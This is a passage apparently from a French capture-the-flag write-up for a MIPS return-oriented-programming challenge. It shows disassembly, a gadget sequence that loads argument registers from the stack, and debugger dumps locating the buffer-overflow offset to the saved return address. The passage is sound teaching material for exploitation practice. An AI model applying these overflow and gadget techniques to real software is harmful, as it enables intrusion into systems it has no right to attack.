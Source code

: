     │           0x00400b78      05000524       addiu a1, zero, 5           ; arg2
    │           0x00400b7c      04000424       addiu a0, zero, 4           ; arg1
    │           0x00400b80      6080828f       lw v0, -sym.imp.callme_one(gp) ; [0x411070:4]=0x400d20 sym.imp.callme_one
    │           0x00400b84      25c84000       move t9, v0
    │           0x00400b88      09f82003       jalr t9
    │           0x00400b8c      00000000       nop
    │           0x00400b90      1000dc8f       lw gp, (var_10h)
    │           0x00400b94      01000424       addiu a0, zero, 1           ; arg1
    │           0x00400b98      5480828f       lw v0, -sym.imp.exit(gp)    ; [0x411064:4]=0x400d40 sym.imp.exit
    │           0x00400b9c      25c84000       move t9, v0
    │           0x00400ba0      09f82003       jalr t9


    [0x004007e0]> pd 40 @0x400bb0
    │           ;-- usefulGadgets:
    │           0x00400bb0      1000a48f       lw a0, (var_10h)
    │           0x00400bb4      0c00a58f       lw a1, (var_ch)
    │           0x00400bb8      0800a68f       lw a2, (var_8h)
    │           0x00400bbc      0400b98f       lw t9, (var_4h)
    │           0x00400bc0      09f82003       jalr t9
    │           0x00400bc4      00000000       nop
    │           0x00400bc8      1400bf8f       lw ra, (var_14h)
    │           0x00400bcc      0800e003       jr ra
    └           0x00400bd0      1800bd23       addi sp, sp, 0x18



### Observation du debordement

b *pwnme+172

Juste avant le read :

    gef➤  x/20x $sp
    0x40800c10:	0x00400e18	0xffffffff	0x00000001	0x00000000
                fp et sp
    0x40800c20:	0x00419010	0x3ffd4584	0x00000000	0x00000000
                                        fp+18
    0x40800c30:	0x00000000	0x00000000	0x00000000	0x00000000
    0x40800c40:	0x00000000	0x00000000	0x40800c50	0x00400a08
                                        save sp     save ra
    0x40800c50:	0x40800c9c	0x3ffca0ac	0x00400674	0x3ffbf41c


Apres lecture de : aaaaaaaabbbbbbbbccccccccddddddddAAAABBBB
                   <-         32                  > sp  ra
───────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  x/20x $sp
    0x40800c10:	0x00400e18	0xffffffff	0x00000001	0x00000000
    0x40800c20:	0x00419010	0x3ffd4584	0x61616161	0x61616161
    0x40800c30:	0x62626262	0x62626262	0x63636363	0x63636363
    0x40800c40:	0x64646464	0x64646464	0x41414141	0x42424242
    0x40800c50:	0x40800c0a	0x3ffca0ac	0x00400674	0x3ffbf41c
